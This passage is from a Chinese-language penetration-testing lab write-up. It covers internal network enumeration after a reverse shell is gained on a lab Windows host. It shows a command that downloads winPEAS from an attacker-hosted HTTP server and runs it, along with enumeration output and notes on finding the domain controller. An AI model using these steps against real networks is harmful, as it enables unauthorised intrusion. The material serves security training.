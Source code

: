 ## Enumerating the Internal Network
- 蒐集內部網路的資訊
- 枚舉 AD 環境，尋找用戶、電腦、網域管理員等資訊
### Situational Awareness
前已經成功取得 CLIENTWK1 的反向 Shell
#### 1. 取得 CLIENTWK1 的基本資訊
```
┌──(chw㉿CHW)-[~/beyond]
└─$ cp /home/chw/winPEASx64.exe .
┌──(chw㉿CHW)-[~/beyond]
└─$ python3 -m http.server 8000
```
```
PS C:\Users\marcus> iwr -uri http://192.168.45.214:8000/winPEASx64.exe -Outfile winPEAS.exe                 
iwr -uri http://192.168.45.214:8000/winPEASx64.exe -Outfile winPEAS.exe
PS C:\Users\marcus>.\winPEAS.exe
...
����������͹ Basic System Information
� Check if the Windows versions is vulnerable to some known exploit https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits
    Hostname: CLIENTWK1
    Domain Name: beyond.com
    ProductName: Windows 10 Pro
    EditionID: Professional
...
AV Information:
No AV was detected!!
...
����������͹ Network Ifaces and known hosts
� The masks are only for the IPv4 addresses 
    Ethernet0[00:50:56:AB:26:41]: 172.16.73.243 / 255.255.255.0
        Gateways: 172.16.73.254
        DNSs: 172.16.73.240
        Known hosts:
          172.16.73.240         00-50-56-AB-13-3B     Dynamic
          172.16.73.254         00-50-56-AB-A8-17     Dynamic
          172.16.73.255         FF-FF-FF-FF-FF-FF     Static

...

����������͹ DNS cached --limit 70--
    Entry                                 Name                                  Data
    mailsrv1.beyond.com                   mailsrv1.beyond.com                   172.16.73.254
                  
PS C:\Users\marcus> systeminfo
Host Name:                 CLIENTWK1
OS Name:                   Microsoft Windows 11 Pro
OS Version:                10.0.22000 N/A Build 22000
...
```
> 1. CLIENTWK1 屬於 beyond.com 網域，並運行 Windows 10 Pro (實際上是 Windows 11)
> 2. 沒有偵測到防毒軟體，表示可以任意執行惡意工具
> 3. `172.16.73.240` : 可能是 DC (DCSRV1)
> 4. `172.16.73.254 `: `MAILSRV1` 內部 IP (之前從外部連線時是 192.168.117.242，表示雙網卡設備)
